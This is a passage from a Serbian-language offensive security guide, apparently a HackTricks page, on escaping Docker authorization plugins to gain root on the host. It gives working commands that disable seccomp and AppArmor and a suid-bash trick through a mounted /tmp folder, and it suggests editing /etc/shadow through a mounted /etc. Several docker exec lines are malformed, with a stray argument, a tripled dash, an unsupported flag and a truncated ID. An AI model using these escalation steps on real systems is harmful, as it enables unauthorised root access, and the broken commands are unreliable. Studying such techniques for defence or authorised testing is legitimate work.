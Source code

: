 Međutim, korisnik može **kreirati shell unutar pokrenutog kontejnera i dati mu dodatne privilegije**:

```bash
docker run -d --security-opt seccomp=unconfined --security-opt apparmor=unconfined ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de

# Now you can run a shell with --privileged
docker exec -it privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
# With --cap-add=ALL
docker exec -it ---cap-add=ALL bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
# With --cap-add=SYS_ADMIN
docker exec -it ---cap-add=SYS_ADMIN bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
```

Sada korisnik može da pobegne iz kontejnera koristeći bilo koju od [**prethodno diskutovanih tehnika**](./#privileged-flag) i **poveća privilegije** unutar hosta.

### Montiranje foldera sa dozvolom pisanja

U ovom slučaju, sistem administrator je **onemogućio korisnicima da pokreću kontejnere sa `--privileged` zastavicom** ili daje bilo kakve dodatne mogućnosti kontejneru, i dozvolio je samo montiranje `/tmp` foldera:

```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
-p #This will give you a shell as root
```

{% hint style="info" %}
Imajte na umu da možda ne možete montirati direktorijum `/tmp`, ali možete montirati **drug direktorijum za pisanje**. Možete pronaći direktorijume za pisanje koristeći: `find / -writable -type d 2>/dev/null`

**Imajte na umu da neće svi direktorijumi na Linux mašini podržavati suid bit!** Da biste proverili koji direktorijumi podržavaju suid bit, pokrenite `mount | grep -v "nosuid"`. Na primer, obično `/dev/shm`, `/run`, `/proc`, `/sys/fs/cgroup` i `/var/lib/lxcfs` ne podržavaju suid bit.

Takođe imajte na umu da ako možete **montirati `/etc`** ili bilo koji drugi direktorijum **koji sadrži konfiguracione fajlove**, možete ih promeniti iz Docker kontejnera kao root kako biste ih zloupotrebili na hostu i eskalirali privilegije (možda izmenom `/etc/shadow`).
{% endhint %}

### Neproverena API tačka

Odgovornost sistem administratora koji konfiguriše ovaj plugin je da kontroliše koje akcije i sa kojim privilegijama svaki korisnik može izvršiti. Stoga, ako administrator koristi **crnu listu** za pristupne tačke i atribute, može se desiti da **zaboravi neke od njih** koje bi omogućile napadaču da eskalira privilegije.
